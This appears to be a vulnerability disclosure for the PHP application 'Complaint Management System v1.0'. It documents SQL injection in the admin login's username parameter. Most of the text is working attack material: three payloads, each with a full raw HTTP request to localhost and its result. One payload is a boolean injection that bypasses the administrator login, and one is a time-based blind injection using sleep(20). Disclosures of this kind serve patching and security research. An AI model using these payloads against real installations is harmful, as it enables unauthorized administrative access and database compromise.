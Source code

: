 # Complaint Management System v1.0 by razormist has SQL injection

BUG_Author: 

vendors:https://www.sourcecodester.com/php/14206/complaint-management-system.html

Vulnerability File: Complaint Management System/admin/index.php

POST parameter 'username' exists SQL injection vulnerability

Payload1: username=a%27+or+666%3D667--+&password=b&submit=

```
POST /Complaint%20Management%20System/admin/index.php HTTP/1.1
Host: localhost
Content-Length: 48
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Complaint%20Management%20System/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=t4seeleacv1a7kkuldnhdqs4v4
Connection: close

username=a%27+or+666%3D667--+&password=b&submit=
```

Invalid username or password

Payload2:username=a%27+or+666%3D666--+&password=b&submit=

```
POST /Complaint%20Management%20System/admin/index.php HTTP/1.1
Host: localhost
Content-Length: 48
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Complaint%20Management%20System/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=t4seeleacv1a7kkuldnhdqs4v4
Connection: close

username=a%27+or+666%3D666--+&password=b&submit=
```

The administrator page is successfully logged in

Payload3:username=a'%2b(select*from(select(sleep(20)))a)%2b'&password=b&submit=

```
POST /Complaint%20Management%20System/admin/index.php HTTP/1.1
Host: localhost
Origin: http://localhost
Cookie: PHPSESSID=vsjva5aj42bfl3b3i7s95s8ukr
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://localhost/Complaint%20Management%20System/admin/index.php
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 70

username=a'%2b(select*from(select(sleep(20)))a)%2b'&password=b&submit=
```

The server's response time is 20 seconds



